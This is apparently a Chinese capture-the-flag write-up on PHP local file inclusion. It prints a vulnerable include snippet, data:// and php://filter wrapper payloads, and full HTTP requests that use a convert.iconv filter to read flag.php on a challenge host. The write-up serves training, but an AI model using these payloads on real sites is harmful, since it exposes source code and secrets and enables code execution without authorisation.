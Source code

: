 ```yaml
---
title: 浅谈php的文件上传
categories: WebSec
tags: 
- XCTF
- 文件上传
---
```

# 常规三件套
1. 看源码
2. 扫描dir
3. 分析抓包

源码没啥

![Alt text](image.png)

# 关于php文件上传中data协议的利用

```php
<?php
    @$file  = $_GET['file'];
    @include($file);
?>
```
闯入一个文件如果这个文件存在 就包含该文件，
但是没有上传按钮，如何上传，有这样一个方法，

# data 伪协议
php 5.2.0 起，数据流封装器开始有效，主要用于数据流的读取，如果传入的数据是PHP代码就会执行代码。使用方法为:

`data://text/plain;base64,xxxx(base64编码后的数据)`


include()会直接执行传入的php文件
<?php
echo "Hello World!";
?>
读文件协议
`php://filter/read/convert.base64-encode/resource=check.php`

> php://filter/ 是一种访问本地文件的协议，/read=convert.base64-encode/ 表示读取的方式是 base64 编码后，resource=index.php 表示目标文件为index.php。问什么要进行 base64 编码呢？如果不进行 base64 编码传入，index.php 就会直接执行，我们就看不到文件中的内容了。php 协议还常用 php://input，这可以访问请求的原始数据的只读流，可以读取 POST 请求的参数。

文件过滤
https://blog.csdn.net/woshilnp/article/details/117266628
# 
故此我们使用
```php
GET /?filename=php://filter/convert.iconv.§input-encoding§.§output-encoding§/resource=flag.php HTTP/1.1
Host: 61.147.171.105:62470
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```
----

```
convert.iconv.<input-encoding>.<output-encoding> 
or 
convert.iconv.<input-encoding>/<output-encoding>
//支持的编码
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
```

# PlayLoad
```
GET /?filename=php://filter/convert.iconv.UTF-8%2a.UTF-32%2a/resource=flag.php HTTP/1.1
Host: 61.147.171.105:62470
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

无法直接复制，编码的问题s
